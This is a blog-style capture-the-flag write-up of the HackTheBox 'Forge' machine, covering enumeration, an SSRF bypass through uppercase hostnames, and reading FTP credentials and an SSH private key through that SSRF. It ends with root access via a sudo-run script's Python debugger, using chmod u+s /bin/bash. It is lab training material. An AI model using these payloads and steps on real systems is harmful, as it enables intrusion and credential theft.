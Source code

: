 ```yaml
---
layout: posts
title:  "Forge"
dates:   January 2022
tag:	hackthebox
categories: hackthebox
image: ""
author: "OREOSEC"
---
```

**Bismillah**

I'll cover Forge machine (medium) from HackTheBox this box based on Linux system. As usual challenge from HackTheBox is we must owned fully system (privelege escalation) for getting user.txt and root.txt.

This content
------------

*   [Nmap port scanning](#nmap)
*   [DNS Fuzzing](#fuzz)
*   [Web service identification](#web)
*   [SSRF Bypassing](#ssrf)
*   [Shell as user](#user)
*   [Gaining root](#root)

Enumerate
-----

### Nmap Scanning {#nmap}

Let's begin with enumeration using nmap for disover opening port on victim

```bash
sudo nmap -sCV -oN nmap/serv 10.10.11.111
```

**explanation**

*   \-s: Scanning TCP port mode
*   C: using nmap common-script for service was aimed
*   V: show version for service
*   \-oN nmap/serv: write output to nmap/serv file
*   10.10.11.111: Forge's/Machine's IP

![alt nmap scan](/assets/img/forge/nmap.png)

We discovered 21(ftp) but filtered, 22(ssh), 80(http)

### DNS Fuzzing {#fuzz}

While visiting website this page just redirecting on forge.htb, so we add forge.htb on /etc/hosts file. Let's fire up ffuf to fuzz on vhost machine's

``` bash
ffuf -c -u "http://forge.htb" -H "Host: FUZZ.forge.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 50 -r  -fs 2050
```
![alt ffuf](/assets/img/forge/ffuf.png)

We can able get admin.forge.htb subdomain and add on /etc/hosts again.

Admin page content:

![alt discover admin subdomain](/assets/img/forge/admin-forge.png)

Seems we don't have permission on this site.

### Checking web service {#web}

This page just content image gallery 

![alt web service](/assets/img/forge/web-index.png)

visit upload image page:

![alt upload image page](/assets/img/forge/upload-page.png)

when i tring to uploading some image to get reverse shell but i just get like this:

![alt try to upload](/assets/img/forge/try-upload.png)

### SSRF bypassing {#ssrf}

so i trying to entering http://127.0.0.1 to "upload from url" and it shown below:

![alt try ssrf payload](/assets/img/forge/try-localhost-web.png)

hmmm... it's interesting.. it's look like Server Side Request Forgery (this is why box name Forge) so i just think if we've admin subdomain so i decide to try bypassing blacklist for this form with my "Caps Lock".

payload:

```bash
http://ADMIN.FORGE.HTB/announcements
```

![alt bypass ssrf blacklist](/assets/img/forge/bypass-ssrf.png)

And success :) so we can open url from curl 

![alt curl output](/assets/img/forge/open-curl.png)

### Shell as user {#user}

As you can see there's /announcements page and we can try to use this payload to get content 

payload:

```bash
http://ADMIN.FORGE.HTB/announcements
```

we got some useful information from this page which content credentials and method for uploading an image

```html
 <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
 <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
 <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```

Tried method to accessing ftp from ssrf by again submitting URL

payload:

```bash
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB
```

```bash
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 24 06:31 user.txt
```

it's look like home directory of user :D so we can try to get ssh id_rsa in here

payload:

```bash
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa
```

and we got this to login on user ssh

```bash
chmod 600 id_rsa
ssh user@forge.htb -i id_rsa

```

![alt id_rsa](/assets/img/forge/id_rsa.png)

### Gaining root access {#root}

Tried some command to check permission on sudo 


```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
user@forge:~$
```


/opt/remote-manage.py content:


```python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```


it's just look like some python socket server with python debugger module.. so we run this script with sudo and connect it on another ssh session 


```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:63624
```


when we enter randomly character (or make this some exception) .. the debugger will be open on socket server


```bash
user@forge:~$ sudo python3 /opt/remote-manage.py
Listening on localhost:63624
invalid literal for int() with base 10: b'kjsfhaslaj'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)
```

so we can execute any python command in here


```bash
(Pdb) import os
(Pdb) os.system('chmod u+s /bin/bash')
0
(Pdb)
user@forge:~$ bash -p
bash-5.0# whoami
root
bash-5.0#
```

<div class="tenor-gif-embed" data-postid="18638117" data-share-method="host" data-aspect-ratio="1.54589" data-width="100%"><a href="https://tenor.com/view/done-so-done-im-done-monkey-throw-gif-18638117">Done So Done GIF</a>from <a href="https://tenor.com/search/done-gifs">Done GIFs</a></div> <script type="text/javascript" async src="https://tenor.com/embed.js"></script>











